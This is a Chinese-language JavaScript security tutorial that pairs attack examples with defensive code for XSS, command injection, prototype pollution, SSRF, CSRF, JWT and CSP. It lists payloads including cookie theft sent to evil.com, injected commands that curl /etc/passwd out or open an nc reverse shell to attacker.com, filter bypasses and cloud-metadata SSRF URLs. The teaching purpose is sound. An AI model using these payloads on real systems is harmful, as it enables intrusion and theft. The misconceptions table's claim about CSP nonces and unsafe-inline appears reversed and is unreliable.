

## 1. JavaScript安全核心技巧

JavaScript是Web安全攻防的核心语言。浏览器端的XSS、CSRF、DOM操控，服务端的命令注入、原型链污染、SSRF，无一不依赖对JS运行机制的深刻理解。本节从攻击和防御两个视角，系统梳理JavaScript安全的核心技巧。

> **JavaScript安全攻防全景图**



### 1.1 XSS（跨站脚本攻击）

XSS是Web安全中最普遍、影响最广泛的漏洞类型。攻击者将恶意脚本注入到受信任的网页中，当其他用户访问该页面时，脚本在受害者的浏览器中执行。根据注入方式和触发机制，XSS分为四种类型。

#### 1.1.1 XSS的四种类型

| 类型 | 注入位置 | 触发方式 | 持久性 | 危害等级 |
|------|---------|---------|--------|---------|
| 反射型XSS | URL参数/表单 | 用户点击恶意链接 | 非持久 | 中 |
| 存储型XSS | 数据库/文件 | 用户访问被污染页面 | 持久 | 高 |
| DOM型XSS | 客户端JS | 前端代码处理用户数据 | 非持久 | 中-高 |
| 盲XSS | 后端日志/邮件 | 管理员查看日志 | 持久 | 高 |

#### 1.1.2 XSS Payload构造技术

**基础Payload**——覆盖常见HTML标签和事件处理器：

```javascript
// 直接执行脚本
<script>alert('XSS')</script>
<script src="https://evil.com/steal.js"></script>

// 利用HTML事件处理器（绕过script标签过滤）

<svg onload=alert('XSS')>
<body onload=alert('XSS')>
<input onfocus=alert('XSS') autofocus>
<select onfocus=alert('XSS') autofocus>
<textarea onfocus=alert('XSS') autofocus>
<marquee onstart=alert('XSS')>
<details open ontoggle=alert('XSS')>
<video><source onerror=alert('XSS')>
<audio src=x onerror=alert('XSS')>
```

**绕过过滤的Payload**——当目标存在输入过滤时的绕过技巧：

```javascript
// 模板字符串绕过括号过滤
<script>alert`XSS`</script>

// HTML实体编码绕过关键字过滤


// Unicode转义绕过


// 双写绕过（过滤一次的情况）
<scrscriptipt>alert('XSS')</scrscriptipt>

// 大小写混合绕过
<ScRiPt>alert('XSS')</ScRiPt>


// 利用JavaScript伪协议
<a href="javascript:alert('XSS')">Click</a>
<iframe src="javascript:alert('XSS')">

// 利用data URI
<a href="data:text/html,<script>alert('XSS')">Click</a>
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=">Click</a>

// 利用SVG嵌入
<svg><script>alert('XSS')</script></svg>
<svg/onload=alert('XSS')>

// 利用MathML和SVG的嵌套绕过（Chrome特殊绕过）
<math><mtext></mtext><mglyph><svg><mtext><textarea><path id="</textarea>">
```

**上下文感知Payload**——根据注入点的HTML上下文选择Payload：

```javascript
// 注入点在HTML属性值中（双引号闭合）
" onmouseover="alert('XSS')"
" onfocus="alert('XSS')" autofocus="
" onclick="alert('XSS')" x="

// 注入点在HTML属性值中（单引号闭合）
' onmouseover='alert('XSS')'
' onfocus='alert('XSS')' autofocus='

// 注入点在JavaScript字符串中
';alert('XSS');//
"-alert('XSS')-"
</script><script>alert('XSS')</script>

// 注入点在JavaScript模板字符串中
${alert('XSS')}
${document.location='https://evil.com/?c='+document.cookie}

// 注入点在HTML注释中
--><script>alert('XSS')</script><!--

// 注入点在URL中
javascript:alert('XSS')
data:text/html,<script>alert('XSS')</script>
```

#### 1.1.3 DOM型XSS深度解析

DOM型XSS是最容易被忽视的XSS类型，因为它的Payload不经过服务器，传统的服务端WAF无法检测。

**常见Source（数据入口）和Sink（危险操作）对照表：**

| Source（数据来源） | Sink（危险操作） | 风险等级 |
|-------------------|-----------------|---------|
| `location.hash` | `innerHTML` | 高 |
| `location.search` | `eval()` | 极高 |
| `document.referrer` | `document.write()` | 高 |
| `window.name` | `setTimeout(string)` | 高 |
| `postMessage` | `jQuery.html()` | 高 |
| `localStorage` | `Function()` | 极高 |
| `document.cookie` | `location.href` | 中 |
| `IndexedDB` | `element.src` | 中 |

```javascript
// 典型DOM XSS漏洞：从URL取值直接写入DOM
// URL: https://example.com/page#
const hash = location.hash.substring(1);
document.getElementById('output').innerHTML = decodeURIComponent(hash); // XSS!

// 安全写法：使用textContent替代innerHTML
document.getElementById('output').textContent = decodeURIComponent(hash);

// 典型DOM XSS：从postMessage取值写入DOM
window.addEventListener('message', (e) => {
    document.getElementById('content').innerHTML = e.data; // XSS!
});

// 安全写法：验证origin + 使用textContent
window.addEventListener('message', (e) => {
    if (e.origin !== 'https://trusted.com') return;
    document.getElementById('content').textContent = e.data;
});
```

#### 1.1.4 XSS防御体系

单一防御手段不够，需要纵深防御：

```javascript
// 1. 输出编码（最关键的防御）
function escapeHtml(str) {
    const map = {
        '&': '&amp;',
        '<': '&lt;',
        '>': '&gt;',
        '"': '&quot;',
        "'": '&#039;',
        '/': '&#x2F;',
        '`': '&#96;'
    };
    return str.replace(/[&<>"'\/`]/g, c => map[c]);
}

// 2. 使用DOMPurify库进行HTML消毒
import DOMPurify from 'dompurify';
const clean = DOMPurify.sanitize(userInput);
// 允许特定标签和属性
const clean = DOMPurify.sanitize(userInput, {
    ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'a'],
    ALLOWED_ATTR: ['href', 'title']
});

// 3. 设置HttpOnly Cookie防止XSS窃取Cookie
res.cookie('session', sessionId, {
    httpOnly: true,   // JS无法读取
    secure: true,     // 仅HTTPS传输
    sameSite: 'strict' // 防CSRF
});

// 4. 设置CSP头部（详见1.8节）
res.setHeader('Content-Security-Policy', "default-src 'self'; script-src 'self'");
```

### 1.2 Node.js命令注入

Node.js中使用`child_process`模块执行系统命令时，如果直接拼接用户输入，会导致命令注入。

#### 1.2.1 危险函数与安全替代

| 危险函数 | 安全替代 | 区别 |
|---------|---------|------|
| `exec(cmd)` | `execFile(bin, args)` | exec通过shell解释，execFile直接执行 |
| `execSync(cmd)` | `execFileSync(bin, args)` | 同上，同步版本 |
| `spawn(cmd, {shell:true})` | `spawn(bin, args)` | shell:true时启用shell解释 |

```javascript
const { exec, execFile, spawn } = require('child_process');

// 危险代码：直接拼接用户输入
app.get('/ping', (req, res) => {
    const host = req.query.host;
    exec(`ping -c 3 ${host}`, (err, stdout) => {
        res.send(`<pre>${stdout}</pre>`);
    });
});

// 攻击Payload示例：
// host=127.0.0.1; cat /etc/passwd
// host=127.0.0.1 && curl http://evil.com/$(cat /etc/passwd | base64)
// host=127.0.0.1 | nc attacker.com 4444 -e /bin/sh
// host=$(id) — 命令替换
// host=`id` — 反引号命令替换

// 安全写法1：使用execFile（推荐）
app.get('/ping', (req, res) => {
    const host = req.query.host;
    // execFile直接执行ping，不经过shell，参数不会被解释
    execFile('ping', ['-c', '3', host], (err, stdout) => {
        res.send(`<pre>${escapeHtml(stdout)}</pre>`);
    });
});

// 安全写法2：白名单校验
app.get('/ping', (req, res) => {
    const host = req.query.host;
    if (!/^[a-zA-Z0-9.\-]+$/.test(host)) {
        return res.status(400).send('Invalid hostname');
    }
    execFile('ping', ['-c', '3', host], (err, stdout) => {
        res.send(`<pre>${escapeHtml(stdout)}</pre>`);
    });
});

// 安全写法3：使用spawn（更精细的控制）
app.get('/ping', (req, res) => {
    const host = req.query.host;
    const proc = spawn('ping', ['-c', '3', host]);
    let output = '';
    proc.stdout.on('data', d => output += d);
    proc.on('close', () => res.send(`<pre>${escapeHtml(output)}</pre>`));
});
```

#### 1.2.2 高级命令注入绕过技巧

即使做了基础过滤，攻击者仍有多种绕过手段：

```javascript
// 绕过空格过滤
// ${IFS} 在bash中等价于空格
host=127.0.0.1${IFS}||${IFS}cat${IFS}/etc/passwd
// 利用$'\t'制表符
host=127.0.0.1$'\t'||$'\t'cat$'\t'/etc/passwd

// 绕过斜杠过滤
host=127.0.0.1||cat${IFS}..${IFS}..${IFS}etc${IFS}passwd
// 使用变量拼接
host=127.0.0.1||a=et;b=c;cat${IFS}/${a}${b}/passwd

// 绕过关键字过滤（使用通配符）
host=127.0.0.1||cat${IFS}/etc/p*
host=127.0.0.1||/bin/ca?${IFS}/etc/passwd

// 利用引号插入绕过关键字过滤
host=127.0.0.1||c"a"t${IFS}/etc/passwd
host=127.0.0.1||c'a't${IFS}/etc/passwd

// 利用十六进制/八进制编码
host=127.0.0.1||$(echo -e '\x63\x61\x74')${IFS}/etc/passwd
```

**教训：白名单永远优于黑名单，`execFile`比`exec`安全得多。**

### 1.3 原型链污染

原型链污染是JavaScript特有的安全漏洞。由于JS中所有对象都继承自`Object.prototype`，攻击者通过修改`__proto__`或`constructor.prototype`，可以影响所有对象的行为。

#### 1.3.1 原型链污染原理

```javascript
// JavaScript原型链结构
// obj --> Object.prototype --> null
// arr --> Array.prototype --> Object.prototype --> null
// func --> Function.prototype --> Object.prototype --> null

// 当访问对象属性时，JS引擎沿着原型链向上查找
const obj = {};
obj.__proto__.isAdmin = true;

// 现在所有普通对象都会"继承"这个属性
const user = {};
const config = {};
console.log(user.isAdmin);    // true
console.log(config.isAdmin);  // true
```

#### 1.3.2 常见污染场景

```javascript
// 场景1：不安全的深合并（lodash.merge < 4.6.2, merge-deep等）
function deepMerge(target, source) {
    for (let key in source) {
        if (typeof source[key] === 'object' && source[key] !== null) {
            if (!target[key]) target[key] = {};
            deepMerge(target[key], source[key]);
        } else {
            target[key] = source[key];
        }
    }
    return target;
}

// 攻击者传入精心构造的JSON
const malicious = JSON.parse('{"__proto__": {"isAdmin": true, "role": "admin"}}');
deepMerge({}, malicious);

// 场景2：不安全的对象属性设置
function setValue(obj, path, value) {
    const keys = path.split('.');
    let current = obj;
    for (let i = 0; i < keys.length - 1; i++) {
        if (!current[keys[i]]) current[keys[i]] = {};
        current = current[keys[i]];
    }
    current[keys[keys.length - 1]] = value;
}

// 攻击Payload
setValue({}, '__proto__.isAdmin', true); // 污染Object.prototype!

// 场景3：Express/Body-Parser未限制嵌套深度
// POST body: {"user":{"__proto__":{"isAdmin":true}}}
app.post('/api/user', (req, res) => {
    Object.assign(currentUser, req.body.user); // 原型链污染
});
```

#### 1.3.3 原型链污染的利用方式

```javascript
// 利用1：权限绕过（最常见）
// 应用代码：if (user.isAdmin) { grantAccess(); }
// 污染Object.prototype.isAdmin = true后，任何user对象都返回true

// 利用2：属性覆盖导致逻辑错误
// 污染Object.prototype.role = "admin"

// 利用3：RCE（远程代码执行）——通过污染模板引擎选项
// Pug模板引擎RCE
// 污染Object.prototype.block = { "type": "Text", "val": "global.process.mainModule.require('child_process').execSync('id').toString()" }

// 利用4：SSRF/路径遍历——污染请求配置
// 污染Object.prototype.hostname = "evil.com"
// 所有HTTP请求都会发往evil.com

// 利用5：绕过安全检查
// 污染Object.prototype.allowAccess = true
// if (config.allowAccess) { return next(); }
```

#### 1.3.4 原型链污染防御

```javascript
// 防御1：过滤危险键（__proto__, constructor, prototype）
function safeMerge(target, source) {
    const DANGEROUS_KEYS = new Set(['__proto__', 'constructor', 'prototype']);
    for (let key of Object.keys(source)) {
        if (DANGEROUS_KEYS.has(key)) continue;
        if (typeof source[key] === 'object' && source[key] !== null) {
            if (!target[key]) target[key] = {};
            safeMerge(target[key], source[key]);
        } else {
            target[key] = source[key];
        }
    }
    return target;
}

// 防御2：使用Object.create(null)创建无原型对象
const safeObj = Object.create(null);
// safeObj没有__proto__，无法被污染链影响

// 防御3：使用Map替代普通对象存储用户数据
const userMap = new Map();
userMap.set('isAdmin', userInput.isAdmin); // Map不受原型链影响

// 防御4：冻结Object.prototype（需要在应用启动时调用）
Object.freeze(Object.prototype);
// 注意：这会破坏某些库的正常功能，需要充分测试

// 防御5：使用Object.hasOwn()替代in操作符
if (Object.hasOwn(user, 'isAdmin')) { /* ... */ }
// hasOwn只检查对象自身属性，不检查原型链

// 防御6：限制JSON解析深度
const bodyParser = require('body-parser');
app.use(bodyParser.json({ limit: '100kb' }));
// 或使用safe-stable-stringify替代JSON.stringify
```

### 1.4 SSRF（服务端请求伪造）

SSRF允许攻击者利用服务器作为代理，访问内网资源、云服务元数据或其他受限服务。

#### 1.4.1 SSRF攻击向量

```javascript
// 攻击1：读取服务器本地文件
GET /fetch?url=file:///etc/passwd
GET /fetch?url=file:///proc/self/environ    // 获取环境变量（含密钥）
GET /fetch?url=file:///proc/self/cmdline    // 获取启动命令

// 攻击2：访问云服务元数据（获取IAM凭证）
GET /fetch?url=http://169.254.169.254/latest/meta-data/
GET /fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
// AWS/GCP/Azure/阿里云都有类似的元数据服务

// 攻击3：扫描内网服务
GET /fetch?url=http://192.168.1.1:8080/admin
GET /fetch?url=http://10.0.0.5:6379/       // Redis未授权

// 攻击4：利用Redis/FTP等协议执行命令
GET /fetch?url=gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a
// gopher协议可以构造任意TCP数据包

// 攻击5：利用DNS Rebinding绕过IP检查
// 第一次DNS解析返回合法IP，通过检查后第二次解析返回内网IP
```

#### 1.4.2 SSRF防御方案

```javascript
const { URL } = require('url');
const dns = require('dns').promises;
const net = require('net');

async function safeFetch(userUrl) {
    // 第一层：协议白名单
    const parsed = new URL(userUrl);
    if (!['http:', 'https:'].includes(parsed.protocol)) {
        throw new Error('仅允许HTTP/HTTPS协议');
    }

    // 第二层：DNS解析后检查IP（防止DNS Rebinding需要在请求时再次验证）
    const addresses = await dns.resolve4(parsed.hostname);
    for (const addr of addresses) {
        if (isPrivateIP(addr)) {
            throw new Error('不允许访问内网地址');
        }
    }

    // 第三层：设置超时和响应大小限制
    const controller = new AbortController();
    const timeout = setTimeout(() => controller.abort(), 5000);
    try {
        const response = await fetch(userUrl, {
            signal: controller.signal,
            // 第四层：禁止重定向（防止重定向到内网）
            redirect: 'error'
        });
        // 第五层：限制响应大小
        const text = await response.text();
        if (text.length > 1024 * 1024) { // 1MB
            throw new Error('响应过大');
        }
        return text;
    } finally {
        clearTimeout(timeout);
    }
}

function isPrivateIP(ip) {
    // 检查IPv4私有地址
    if (!net.isIPv4(ip)) return true; // 拒绝IPv6
    const parts = ip.split('.').map(Number);
    if (parts[0] === 10) return true;                         // 10.0.0.0/8
    if (parts[0] === 172 && parts[1] >= 16 && parts[1] <= 31) return true; // 172.16.0.0/12
    if (parts[0] === 192 && parts[1] === 168) return true;    // 192.168.0.0/16
    if (parts[0] === 127) return true;                        // 127.0.0.0/8
    if (parts[0] === 169 && parts[1] === 254) return true;    // 169.254.0.0/16 链路本地
    if (ip === '0.0.0.0') return true;
    return false;
}
```

**注意**：DNS Rebinding可以绕过"先解析后请求"的检查模式。更安全的方案是在TCP连接建立后检查实际连接的IP地址，或使用支持此功能的HTTP代理（如Squid的`dns_v4_first`配置）。

### 1.5 CSRF（跨站请求伪造）

CSRF利用浏览器自动附带Cookie的机制，诱使已登录用户在不知情的情况下执行操作。

#### 1.5.1 CSRF攻击原理与示例

```html
<!-- 攻击者页面中的隐藏表单 -->
<form action="https://bank.com/transfer" method="POST" id="csrf-form">
    <input type="hidden" name="to" value="attacker-account">
    <input type="hidden" name="amount" value="10000">
</form>
<script>document.getElementById('csrf-form').submit();</script>

<!-- 利用img标签的GET型CSRF -->


<!-- 利用fetch的POST型CSRF（需要CORS配合或no-cors模式） -->
<script>
fetch('https://bank.com/transfer', {
    method: 'POST',
    credentials: 'include',
    mode: 'no-cors',
    body: new URLSearchParams({to: 'attacker', amount: '10000'})
});
</script>
```

#### 1.5.2 CSRF防御

```javascript
// 防御1：同步令牌模式（Synchronizer Token）
// 服务端生成随机token，嵌入表单，提交时验证
const crypto = require('crypto');

function generateCSRFToken() {
    return crypto.randomBytes(32).toString('hex');
}

// 验证
app.post('/transfer', (req, res) => {
    if (req.body._csrf !== req.session.csrfToken) {
        return res.status(403).send('CSRF token mismatch');
    }
    // 处理转账...
});

// 防御2：SameSite Cookie（最简单有效）
res.cookie('session', sessionId, {
    sameSite: 'strict',  // 跨站请求完全不发送Cookie
    // 或 'lax'：GET请求允许，POST请求禁止
    httpOnly: true,
    secure: true
});

// 防御3：双重提交Cookie
// 将CSRF token同时放在Cookie和请求参数中，比较两者
app.use((req, res, next) => {
    if (!req.cookies.csrfToken) {
        res.cookie('csrfToken', generateCSRFToken(), { sameSite: 'strict' });
    }
    next();
});

app.post('/transfer', (req, res) => {
    if (req.body._csrf !== req.cookies.csrfToken) {
        return res.status(403).send('CSRF验证失败');
    }
});

// 防御4：验证Origin/Referer头部
app.use((req, res, next) => {
    const origin = req.headers.origin || req.headers.referer;
    if (origin && !origin.startsWith('https://mysite.com')) {
        return res.status(403).send('Invalid origin');
    }
    next();
});
```

### 1.6 服务端SQL注入

虽然SQL注入不是JavaScript特有的，但Node.js应用中的SQL注入非常常见。

```javascript
// 危险代码：字符串拼接
const query = `SELECT * FROM users WHERE id = ${userId} AND status = '${status}'`;
db.query(query); // userId="1 OR 1=1" 即可注入

// 安全写法：参数化查询（Prepared Statements）
// MySQL (mysql2)
const [rows] = await db.execute(
    'SELECT * FROM users WHERE id = ? AND status = ?',
    [userId, status]
);

// PostgreSQL (pg)
const { rows } = await pool.query(
    'SELECT * FROM users WHERE id = $1 AND status = $2',
    [userId, status]
);

// Sequelize ORM
const user = await User.findOne({
    where: { id: userId, status: status } // 自动参数化
});

// 危险的ORM用法（仍然可能注入）
const user = await sequelize.query(
    `SELECT * FROM users WHERE id = ${userId}` // 危险！
);

// 安全的ORM用法
const user = await sequelize.query(
    'SELECT * FROM users WHERE id = ?',
    { replacements: [userId] } // 参数化
);
```

### 1.7 ReDoS（正则表达式拒绝服务）

当正则表达式存在灾难性回溯时，精心构造的输入可以导致CPU 100%挂起。

```javascript
// 存在ReDoS的正则表达式
const vuln1 = /^(a+)+$/;              // 指数级回溯
const vuln2 = /^([a-zA-Z]+)*$/;       // 指数级回溯
const vuln3 = /^(a|a)+$/;             // 冗余交替
const vuln4 = /^(a+){10}$/;           // 指数级回溯

// 测试（会挂起很长时间）
const start = Date.now();
vuln1.test('aaaaaaaaaaaaaaaaaaaaaaa!'); // 21个a后跟一个!
console.log(Date.now() - start); // 可能耗时数秒到数分钟

// 安全写法：避免嵌套量词
const safe1 = /^a+$/;                  // 去掉嵌套
const safe2 = /^[a-zA-Z]+$/;          // 去掉外层量词

// 使用re2库（Google的线性时间正则引擎）
const RE2 = require('re2');
const safeRegex = new RE2('^(a+)+$'); // re2不支持回溯，自动安全

// Node.js 20+内置了--regexp-time-limit选项限制正则执行时间
```

### 1.8 CSP（内容安全策略）深度解析

CSP是防御XSS的最有效手段之一，通过白名单机制限制页面可以加载和执行的资源。

```javascript
// 严格CSP配置
const csp = [
    "default-src 'none'",                    // 默认拒绝一切
    "script-src 'self'",                      // 只允许同源脚本
    "style-src 'self' 'unsafe-inline'",       // 允许同源样式和内联样式
    "img-src 'self' data: https:",            // 允许同源图片、data URI、HTTPS图片
    "font-src 'self'",                        // 只允许同源字体
    "connect-src 'self' https://api.mysite.com", // AJAX/WebSocket目标
    "frame-ancestors 'none'",                 // 禁止被iframe嵌入（防点击劫持）
    "base-uri 'self'",                        // 限制<base>标签
    "form-action 'self'",                     // 限制表单提交目标
    "upgrade-insecure-requests"               // HTTP自动升级HTTPS
].join('; ');

res.setHeader('Content-Security-Policy', csp);
```

**CSP绕过技术（了解攻击者思路，才能更好地防御）：**

```javascript
// 绕过1：JSONP端点（如果CSP允许第三方域名）
// CSP允许cdn.example.com时
<script src="https://cdn.example.com/jsonp?callback=alert(1)//"></script>

// 绕过2：base-uri未限制时劫持相对路径
<base href="https://evil.com/">
<script src="payload.js"></script> // 加载evil.com/payload.js

// 绕过3：利用AngularJS的模板注入（ng-app存在时）
// CSP允许'unsafe-eval'时直接执行JS
<div ng-app ng-init="constructor.constructor('alert(1)')()"></div>
// 不允许eval时利用Angular的sandbox逃逸

// 绕过4：利用Service Worker（需要CSP允许worker-src或script-src）
// 如果攻击者能在同源下注册Service Worker

// 防御要点：
// 1. 不要使用unsafe-inline（改用nonce或hash）
// 2. 不要使用unsafe-eval
// 3. 使用nonce方式加载可信脚本
res.setHeader('Content-Security-Policy',
    `script-src 'nonce-${req.nonce}'`);
// HTML中: <script nonce="${req.nonce}">...</script>
```

### 1.9 供应链安全

npm生态系统的供应链攻击是JavaScript安全的重要威胁。

```javascript
// 1. 锁定依赖版本（package-lock.json必须提交到仓库）
// package.json中的"^1.2.3"允许1.x.x范围，可能引入恶意版本
// package-lock.json锁定精确版本和完整性哈希

// 2. 使用npm audit检查已知漏洞
// $ npm audit
// $ npm audit fix

// 3. 使用Socket.dev或Snyk检查依赖的安全性
// $ npx socket npm create react-app myapp

// 4. 禁用postinstall脚本（防止恶意包在安装时执行代码）
// .npmrc文件中添加：
// ignore-scripts=true

// 5. 使用Lockfile-lint验证lockfile来源
// $ npx lockfile-lint --path package-lock.json --type npm --allowed-hosts npm

// 6. 审查新引入的依赖
// 优先选择：高下载量、活跃维护、知名作者、小依赖树
// 警惕：拼写相近的包名（typosquatting）、低下载量的新包

// 7. 使用npm shrinkwrap发布时锁定
// $ npm shrinkwrap
```

### 1.10 JWT认证安全

JWT（JSON Web Token）是现代Web应用最常用的认证机制，但错误的实现方式会导致严重的安全漏洞。

```javascript
// 漏洞1：算法混淆攻击（alg:none）
// 攻击者将JWT头部的alg改为none，跳过签名验证
// eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VySWQiOjEsInJvbGUiOiJhZG1pbiJ9.
// 防御：服务端强制指定允许的算法

const jwt = require('jsonwebtoken');

// 危险写法：不指定算法
jwt.verify(token, secretOrPublicKey); // 接受任何算法

// 安全写法：指定允许的算法
jwt.verify(token, publicKey, { algorithms: ['RS256'] });

// 漏洞2：使用对称密钥验证非对称签名的token
// 如果服务端用RS256（公钥验证）但攻击者改alg为HS256
// 攻击者用公钥（公开的）作为HMAC密钥签名
// 防御：始终验证alg是否在允许列表中

// 漏洞3：密钥强度不足
const weakSecret = 'secret'; // 可被暴力破解
const strongSecret = crypto.randomBytes(64).toString('hex'); // 128字符

// 漏洞4：JWT中存储敏感信息（JWT的payload只是base64编码，不是加密）
// { "userId": 1, "role": "admin", "password": "xxx" }  // 密码暴露！

// 漏洞5：未设置过期时间
jwt.sign({ userId: 1 }, secret, { expiresIn: '1h' }); // 好
jwt.sign({ userId: 1 }, secret); // 永不过期！被盗后永久有效

// 完整的安全JWT实现
function createToken(payload) {
    return jwt.sign(payload, STRONG_SECRET, {
        algorithm: 'HS256',
        expiresIn: '1h',
        issuer: 'mysite.com',
        audience: 'mysite.com'
    });
}

function verifyToken(token) {
    return jwt.verify(token, STRONG_SECRET, {
        algorithms: ['HS256'],       // 强制算法
        issuer: 'mysite.com',        // 验证发行者
        audience: 'mysite.com'       // 验证受众
    });
}
```

### 1.11 客户端存储安全

浏览器提供了多种客户端存储机制，每种都有其安全风险。

```javascript
// Cookie安全配置
res.cookie('session', sessionId, {
    httpOnly: true,    // 防止JS读取（XSS无法窃取）
    secure: true,      // 仅HTTPS传输
    sameSite: 'strict', // 防CSRF
    maxAge: 3600000,   // 1小时过期
    path: '/',         // 限制Cookie路径
    domain: 'mysite.com' // 限制Cookie域名
});

// localStorage安全注意事项
// 1. 任何同源JS都能读写，XSS可以直接窃取
localStorage.setItem('token', jwt); // 不推荐存JWT
// 2. 不要存储敏感信息（密码、密钥、个人数据）
// 3. 数据永不过期（除非手动清除）

// sessionStorage安全注意事项
// 1. 只在当前标签页有效，关闭标签页自动清除
// 2. 同源不同标签页不共享
// 3. 仍然对XSS脆弱

// IndexedDB安全注意事项
// 1. 可存储大量数据（几百MB），注意不要缓存敏感数据
// 2. 异步API，注意竞态条件
// 3. 对XSS脆弱

// 最佳实践：敏感数据存储策略
// 认证token → HttpOnly Cookie（不存localStorage）
// 用户偏好 → localStorage（非敏感数据）
// 临时状态 → sessionStorage
// 大量缓存 → IndexedDB（非敏感数据）
```

### 1.12 postMessage安全

`postMessage`是跨域通信的标准API，但错误使用会导致XSS或数据泄露。

```javascript
// 发送端
const iframe = document.getElementById('child-frame');
iframe.contentWindow.postMessage(data, 'https://child.example.com');
//                                                  ^ 指定目标origin

// 接收端（安全写法）
window.addEventListener('message', (event) => {
    // 必须验证来源
    if (event.origin !== 'https://parent.example.com') {
        return; // 忽略不信任的来源
    }
    // 不要直接将data插入DOM
    // event.data可能是恶意HTML
    // 安全：textContent
    document.getElementById('output').textContent = event.data;
    // 危险：innerHTML
    // document.getElementById('output').innerHTML = event.data; // XSS!
});
```

### 1.13 常见JavaScript安全误区

| 误区 | 事实 |
|------|------|
| `encodeURIComponent`足以防XSS | 只在URL参数中有效，在HTML上下文中无效 |
| `eval`是唯一危险函数 | `Function()`、`setTimeout(string)`、`setInterval(string)`同样危险 |
| HTTPS就不需要CSRF防护 | HTTPS不阻止CSRF，Cookie仍会被自动附带 |
| `SameSite=Lax`完全防CSRF | 顶级GET导航仍会附带Cookie，不保护GET操作 |
| CSP `'unsafe-inline'`加了nonce就安全 | `unsafe-inline`会让nonce失效，两者不能共存 |
| JWT加密了数据 | JWT只是base64编码，任何人可以解码读取 |
| `Object.freeze`能防原型链污染 | 只冻结当前层，嵌套对象仍然可变 |
| ORM完全防SQL注入 | 拼接查询字符串或使用raw query仍然可能注入 |
| WAF能防所有XSS | DOM型XSS不经过服务器，WAF无法检测 |
| 依赖审计npm audit就够了 | 只覆盖已知漏洞，零日和逻辑漏洞不在范围内 |

***

